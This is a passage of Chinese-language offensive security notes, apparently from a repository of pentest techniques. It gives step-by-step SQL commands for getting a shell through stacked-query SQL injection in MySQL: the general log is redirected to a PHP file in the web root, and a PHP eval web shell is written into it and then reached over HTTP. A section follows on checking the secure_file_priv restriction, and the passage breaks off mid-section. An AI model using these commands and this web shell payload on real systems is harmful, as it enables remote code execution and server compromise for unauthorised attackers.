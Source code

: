 ```
# getshell方法2 : 修改 日志文件的具体路径 general_log_file 的值, 实现写文件到任意目录.

# 优点: 【不用考虑】 文件读写权限 @@global.secure_file_priv (实测 MySQL 8.0.17 可写文件到多个目录)
# 前提: stacked queries类型SQLi漏洞 才支持"非select"语句.
# [WARNING] execution of non-query SQL statements is only available when stacked queries are supported

# 步骤1 修改变量值 开启general_log_file
set global general_log = "ON";
set global general_log_file='D:/web/test.php';

# 步骤2 做查询 可将以下查询语句 写入到日志文件
select '<?php eval($_POST[cmd]);?>';

# 访问web文件
http://vul.com/test.php
```

#### MySQL文件读写权限

常见错误 - 写入文件失败

MySQL >= 5.7(可能更早的版本) 没有进行任何配置情况下`secure_file_priv`的默认值为`NULL` 即禁止mysqld导入或导出.

所以即使是MySQL的root用户也无法读写文件. 报错为

```
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

查看当前环境中`secure-file-priv`的值:
```
# 方法1
mysql> show global variables like '%secure_file_priv%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv | NULL  |
+------------------+-------+
1 row in set (0.00 sec)

# 方法2
mysql> SELECT @@global.secure_file_priv;
+---------------------------+
| @@global.secure_file_priv |
+---------------------------+
| NULL                      |
+---------------------------+
1 row in set (0.00 sec)
```

修改secure_file_priv的值:
